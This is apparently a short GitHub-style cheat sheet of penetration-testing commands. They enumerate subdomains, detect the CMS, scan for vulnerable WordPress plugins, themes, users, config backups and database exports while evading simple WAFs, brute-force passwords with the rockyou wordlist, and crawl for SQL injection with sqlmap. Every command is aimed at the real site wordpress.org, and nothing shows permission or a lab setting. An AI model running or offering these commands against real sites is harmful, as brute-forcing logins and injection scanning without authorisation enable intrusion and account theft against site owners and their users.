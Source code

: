 <h1 align="center">Sub Domain Enumeration</h1>

### Sub Domain finding using assetfinder+httpx
    assetfinder -subs-only wordpress.org | httpx -follow-redirects -random-agent -mc 200,302 -silent -server -tech-detect -location | tee path/validsubDomains.txt

<h1 align="center">CMS Detector</h1>

### auto Detecting
    cmseek -u https://wordpress.org --batch | tee 'path/cmsDetector.txt'

<h1 align="center">wpscan</h1>

### Vulnerable plugin, themes, users
    wpscan --url https://wordpress.org -e vp,vt,u -o scanned.txt

### Vulnerable plugins, All plugins, Vulnerable themes, All themes, Timthumbs, Config backups, Db exports, User, Media, Bypassing Simple WAFs
    wpscan --url https://wordpress.org -e vp,vt,tt,cb,dbe,u,m --random-user-agent -v -o scanned.txt

### Password brute force attack
    wpscan --url https://wordpress.org -e u --passwords /usr/share/wordlists/rockyou.txt -o scanned.txt

<h1 align="center">sqlmap</h1>

### auto crawling
    sqlmap -u https://wordpress.org -crawl=3 --batch -o sqlmap.txt
